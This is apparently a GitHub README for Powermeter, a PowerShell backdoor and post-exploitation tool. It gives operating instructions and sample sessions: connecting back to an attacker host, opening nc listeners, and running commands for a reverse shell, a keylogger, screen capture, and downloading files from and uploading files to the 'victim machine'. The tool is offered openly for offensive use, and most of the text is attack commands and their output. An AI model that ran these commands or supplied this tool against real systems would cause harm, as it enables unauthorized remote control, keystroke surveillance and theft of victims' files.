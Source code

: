 # Powermeter
Powermeter is a basic powershell based backdoor/post exploit tool. Main functionalities are shown below. You can also check the video at the bottom of the page.
Note: It is highly recommended to watch the video at 1080p due to low quality of recording. It will be fixed soon :=)

To run this program you need to solve execution-policy problem on your system.

## How to run?
![pm1](https://github.com/mfcekirdek/Powermeter/blob/master/pm1.png "pm1")

	#Import powermeter functions
	>> PS C:\Users\decoder\Desktop> . .\powermeter.ps1
	
	#Start powermeter.
	#When this command is invoked, powermeter will establish a TCP connection to $SHOST:$SPORT (in this case 192.168.214.1:9190). After that, powermeter remote user interface will be ready to take commands and attacker will be able to use powermeter via this tcp connection.
	#$SPORT should be opened at $SHOST machine (in other words, attacker machine).'nc -lvp <SPORT>' command can do the trick. The main connection between powermeter and attacker will be established via this port. Attacker send commands to powermeter from this port. 
	#$FLPORT will be used for any job which requires file transfer (those are download,upload,screencap and keylogger threads). For example, if you want to download a from victim machine, you need to provide a listener $FLPORT at $SHOST machine like this: 'nc -lvp <FLPORT> > downloadedFile'. After that you can call the download function from powermeter shell like this: 'download C:\Users\decoder\Desktop\cozbeni.zip'
	>> PS C:\Users\decoder\Desktop> Start-Powermeter -SHOST 192.168.214.1 -SPORT 9190 -FLPORT 9192
	
	Parameters:
	SHOST - attacker machine's IP.
	SPORT - an open attacker machine port that waits for powermeter connection. #'nc -lvp <SPORT>' command can do the trick.
	FLPORT - attacker machine's file transfer port. This port should be opened at attacker's side to achieve jobs which includes downloading and uploading. (Screencapturing and keylogging are also inclusive because both of them use downloader threads. You may want to see the demo video to see how it works.)

## Commands

### In main module:

#### show options

Powermeter>show options

	 Command                			 Description
	 -------                			 -----------
	 get sysinfo            			 Get system information about victim machine
	 get username           			 Get username of victim machine
	 set FLPORT=<port>      			 Set file transfer port
	 rshell                 			 Open reverse shell module
	 start keylogger        			 Start keylogger thread
	 show jobs              			 Show all active threads
	 stop job -keylogger    			 Stop keylogger thread and download captured keystrokes from file port
	 stop job -reverseShell 			 Stop reverse shell session and thread
	 stop job -sendFile     			 Stop file downloading thread
	 stop job -receiveFile  			 Stop file uploading thread
	 stop job -all          			 Stop all active threads
	 screencap -screen      			 Capture screenshot of victim machine [WHOLE SCREEN] and download it
	 screencap -activeWindow			 Capture screenshot of victim machine [ACTIVE WINDOW] and download it
	 download <fileFromVictim>			 Download a file from victim machine.[<fileFromVictim>: An absolute file path in victim machine that the attacker downloads]
	 upload <fileToVictim>  			 Upload a file to victim machine.[<fileToVictim>: An absolute file path in victim machine to store file uploaded by attacker]
	 exit                   			 Exit the program
	 Important: File transfer port should be opened at attacker's side to achieve downloading,uploading files.


![pm2](https://github.com/mfcekirdek/Powermeter/blob/master/pm2.png "pm2")

#### get sysinfo

Powermeter>get sysinfo

	 Name                   		Value
	 -------                		--------
	 OS Version:            		Microsoft Windows 7 Enterprise 
	 Install Date:          		20171223133718.000000+180
	 Service Pack Version:            		1
	 OS Architecture:       		64-bit
	 Boot Device:           		\Device\HarddiskVolume1
	 Build Number:          		7601
	 Host Name:             		WIN-1D86SE11EIA
	 Internet Explorer Version:		8.0.7601.17514

![pm3](https://github.com/mfcekirdek/Powermeter/blob/master/pm3.png "pm3")

#### set FLPORT=\<PORT>

Powershell>set FLPORT=9192__
[+]FLPORT is set__

![pm4](https://github.com/mfcekirdek/Powermeter/blob/master/pm4.png "pm4")

#### get username

Powermeter>get username
decoder

![pm5](https://github.com/mfcekirdek/Powermeter/blob/master/pm5.png "pm5")

#### rshell

[prerequisite]: 
On attacker side> nc -lvp 9191

Powermeter>rshell
Powermeter>reverse_shell>set LHOST=192.168.214.1
[+]LHOST is set
Powermeter>reverse_shell>set LPORT=9191
[+]LPORT is set
Powermeter>reverse_shell>run
Powermeter>reverse_shell>[+]TCP reverse shell

![pm6](https://github.com/mfcekirdek/Powermeter/blob/master/pm6.png "pm6")

![pm7](https://github.com/mfcekirdek/Powermeter/blob/master/pm7.png "pm7")

Other commands in reverse shell module:

Powermeter>reverse_shell>show options

	 Command                			 Description
	 -------                			 -----------
	 set LHOST=<IPv4>       			 Set local IP address
	 set LPORT=<port>       			 Set local port address
	 run                    			 Start reverse shell
	 back                   			 Exit from reverse shell module

![pm23](https://github.com/mfcekirdek/Powermeter/blob/master/pm23.png "pm23")

#### stop job -reverseShell (stop job -rs)

Powermeter>stop job -reverseShell
[+]ReverseShellJob is terminated..

![pm8](https://github.com/mfcekirdek/Powermeter/blob/master/pm8.png "pm8")

#### show jobs

Powermeter>show jobs
[+]Active jobs:

JobStateInfo  : Running
Finished      : System.Threading.ManualResetEvent
InstanceId    : 50fae208-73d2-4ea0-8f91-0c37597c918b
Id            : 5
Name          : ReverseShellJob
ChildJobs     : {Job6}
Output        : {}
Error         : {}
Progress      : {}
Verbose       : {}
Debug         : {}
Warning       : {}
State         : Running

![pm9](https://github.com/mfcekirdek/Powermeter/blob/master/pm9.png "pm9")

#### stop job -all

Powermeter>stop job -all
[+]ReverseShellJob is terminated..
[+]ReceiveFileJob is terminated..

![pm10](https://github.com/mfcekirdek/Powermeter/blob/master/pm10.png "pm10")

#### screencap -screen

[prerequisite]: 
On attacker side> nc -lvp 9192 > screenshot.png

Powermeter>screencap -screen
[+]Screenshot saved..

![pm12](https://github.com/mfcekirdek/Powermeter/blob/master/pm12.png "pm12")

![pm13](https://github.com/mfcekirdek/Powermeter/blob/master/pm13.png "pm13")

#### screencap -activeWindow

[prerequisite]: 
On attacker side> nc -lvp 9192 > screenshotActiveWindow.png

Powermeter>screencap -activeWindow
[+]Screenshot is saving..

![pm14](https://github.com/mfcekirdek/Powermeter/blob/master/pm2.png "pm14")

![pm24](https://github.com/mfcekirdek/Powermeter/blob/master/pm2.png "pm24")

#### start keylogger & stop job -keylogger

[prerequisite]: 
On attacker side> nc -lvp 9192 > log.txt

Powermeter>start keylogger
[+]KeyLogger is starting..
Powermeter>stop job -keylogger
[+]Keylogger is terminated..

![pm15](https://github.com/mfcekirdek/Powermeter/blob/master/pm15.png "pm15")

![pm19](https://github.com/mfcekirdek/Powermeter/blob/master/pm19.png "pm19")

#### download <file>

[prerequisite]: 
On attacker side> nc -lvp 9192 > downloadedFile

Powermeter>download C:\Users\decoder\Desktop\cozbeni.zip
[+]File is downloading..

![pm18](https://github.com/mfcekirdek/Powermeter/blob/master/pm18.png "pm18")

![pm25](https://github.com/mfcekirdek/Powermeter/blob/master/pm25.png "pm25")

#### upload <file>

[prerequisite]: 
On attacker side> nc -lvp 9192 \< uploadedFile

Powermeter>upload C:\Users\decoder\Desktop\img.jpg
[+]File is uploading..

![pm20](https://github.com/mfcekirdek/Powermeter/blob/master/pm20.png "pm20")

![pm22](https://github.com/mfcekirdek/Powermeter/blob/master/pm22.png "pm22")


A quick demo video
=============

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/0D49nX_bD_8/0.jpg)](https://www.youtube.com/watch?v=0D49nX_bD_8)

